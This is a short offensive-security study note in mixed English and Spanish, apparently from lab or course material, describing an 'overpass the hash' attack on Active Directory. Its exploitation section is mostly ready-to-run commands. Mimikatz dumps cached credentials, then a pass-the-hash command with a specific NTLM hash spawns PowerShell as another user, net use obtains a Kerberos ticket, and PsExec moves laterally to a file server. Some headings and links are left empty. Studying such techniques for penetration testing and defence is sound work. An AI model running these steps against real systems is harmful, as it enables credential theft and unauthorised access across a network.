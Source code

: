 
## DESCRIPTION

With overpass the hash,1 we can "over" abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we can use the TGT to obtain a Ticket Granting Service (TGS).

To demonstrate this, let's assume we have compromised a workstation (or server) that jen has authenticated to. We'll also assume that the machine is now caching their credentials (and therefore, their NTLM password hash).


#### Mas información
* 


## EXPLOITATION

Necesitamos un hash NTLM
```
privilege::debug

sekurlsa::logonpasswords
```


Desde mimikatz ejecutamos:

```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

![[Pasted image 20230527123928.png]]

**!!NOTA IMPORTANTE!!** 

No Kerberos tickets have been cached, but this is expected since jen has not yet performed an interactive login. Let's generate a TGT by authenticating to a network share on the files04 server with net use.

We used net use arbitrarily in this example, but we could have used any command that requires domain permissions and would subsequently create a TGS.

![[Pasted image 20230527124114.png]]


Por ultimo cuando tengamos el TGT podemos conectarnos a la máquina como el otro usuario:

```
cd C:\tools\SysinternalsSuite\
.\PsExec.exe \\files04 cmd
```
## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 